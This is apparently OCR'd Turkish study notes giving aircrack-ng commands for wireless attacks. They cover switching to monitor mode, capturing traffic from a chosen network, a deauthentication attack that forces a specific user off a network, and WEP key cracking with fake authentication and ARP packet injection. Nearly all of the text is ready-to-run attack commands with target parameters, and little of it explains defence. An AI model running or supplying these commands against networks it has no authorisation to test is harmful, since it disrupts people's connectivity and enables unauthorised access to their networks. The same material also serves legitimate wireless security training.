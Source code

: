 DEĞİŞTİRDİKTEN SONRA MONİTÖR MODA GEÇMEK İÇİN;
-airmon-ng start wlan0(wlan0mon olduğu zaman monitör moda geçilmiş demektir.)

-iwconfig wlan0mod:Monitör modda olduğumuzu gösterir.
-airmon-ng stop wlan0mon(MONİTÖR MODU KAPATIR.)






MANUEL ŞEKİLDE MONİTOR MODA GEÇİŞ YAPIP – KAPATMAK
AÇMAK İÇİN
-ifconfig wlan0 down
-iwconfig wlan0mode monitör
-ifconfig wlan0 up
-iwconfig wlan0

KAPAMAK İÇİN
-ifconfig wlan0 down
-iwconfig wlan0mode managed
-ifconfig wlan0 up
-iwconfig wlan0

AĞLARI İNCELEMEK
-airodump-ng wlan0mon (ETRAFTA ULAŞABİLİR AĞLARI GÖSTERİR.)

-BSSID:MAC ADRESİDİR.  –PWR:SAYISI NE KADAR KÜÇÜKSE O KADAR YAKINDIR(-36 VS.)

	-BEACONS:SİNYAL.	 -#DATA:ELİMİZDE OLAN KULLANILABİLİR DATALAR.

	-CH:EN FAZLA KULLANILAN KANALI GÖSTERİR.     –ENC:VERİLERİN HANGİ ŞİFRELEME İLE ŞİFRELENDİĞİNİ GÖSTERİR.

	 ip_addr:Kendi adresimizi gösterir.

	BELLİ BİR AĞA ÖZEL BİLGİ EDİNMEK

	airodump-ng --channel (ch) --bssid (mac) –write test1 wlan0mon

Tarama tamamlanınca: ls test1 dosya gelir.(test1-01.cap uzantılı dosya gelir detaylı şekilde   incelenemesi yapılabilmesi için WİRESHARK uygulaması üzerinden açılıp bakılır.)

DEAUTHHENTICATION ATTACK (BELİRLİ KULLANICIYI AĞDAN ATMA)

aireplay-ng --deauth 1000(Gönderilecek saldırı sayısı) -a kendi bsssimiz -c station yerınde yazar wlan0mon


ŞİFRELEME MODELLERİ (ENCRYPTION/WEB/WPA/WPA2)
WEP CRACKING

-airodump-ng -channel <channel> -bssid <bssid> -write <file_name> <interface(mon0)>
-aircrack-ng <file_name>(aircrack-ng test01.cap) Şifreyi Bulunca[A1:B2:C3:D4](:’LARI KALDIR ŞİFRE)
 
WEP CRACKING-FAKE AUTH(SAHTE YETKİLENDİRME)
-aireplay-ng -fakeauth 0 -a <target-mac> -h <kali-mac> <interface>

-aireplay-ng --arpreplay -b <target-mac> -h <kali-mac> <interface>(ağa sızıp alıdığı paketleri enjekte eder.)

